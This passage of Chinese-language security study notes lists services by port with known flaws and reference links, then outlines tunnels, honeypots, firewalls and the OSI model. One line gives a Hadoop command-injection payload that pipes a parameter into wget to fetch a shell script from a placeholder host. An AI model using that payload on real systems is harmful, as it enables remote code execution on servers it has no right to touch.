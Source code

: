 未授权
注入
https://www.anquanke.com/post/id/83763
phpMoAdmin RCE
https://www.aqniu.com/threat-alert/6978.html
50000 / SAP
SAP命令执行
https://www.secpulse.com/archives/20204.html
50070,50030 / hadoop
未授权
https://www.freebuf.com/vuls/173638.html
命令执行
host:50060/pstack?pid=123|wget http://somehost/shell.sh
https://www.seebug.org/search/?keywords=hadoop
其他
http://www.91ri.org/15441.html

### 隧道
隧道，就是一种绕过端口屏蔽的通信方式
### DOCKER
Docker 安全性问题

### 蜜罐

蜜罐成了今年的重头反制武器，攻击方小心翼翼，清空浏览器缓存、不敢用自己电脑。防守方也因为蜜罐的部署解决了往年被疯狂扫描的想象，由被动变为主动。蜜罐溯源反制终将成为一个常态化趋势~~~
### 虚拟化的知识
### MVC框架
### 防火墙原理

简述路由器交换机、防火墙等网络设备常用的几个基础配置加固项，以及配置方法。
#### WAF 防火墙的编写细节
### 网络基础
#### OSI七层协议
**物理层**
传输对象：比特流
作用：从数据链路层接收帧，将比特流转换成底层物理介质上的信号
**数据链路层**
传输对象：帧
作用：在网络层实体间提供数据传输功能和控制
**网络层**
作用：负责端到端的数据的路由或交换，为透明地传输数据建立连接
**传输层**
作用：接收来自会话层的数据，如果需要，将数据分割成更小的分组，向网络层传送分组并确保分组完整和正确到达它们的目的地
**会话层**
作用：提供提供节点之间通信过程的协调
**表示层**
传输对象：针对不同应用软件的编码格式
作用：提供数据格式、变换和编码转换
**应用层**
传输对象：各种应用如电子邮件、文件传输等
#### UDP
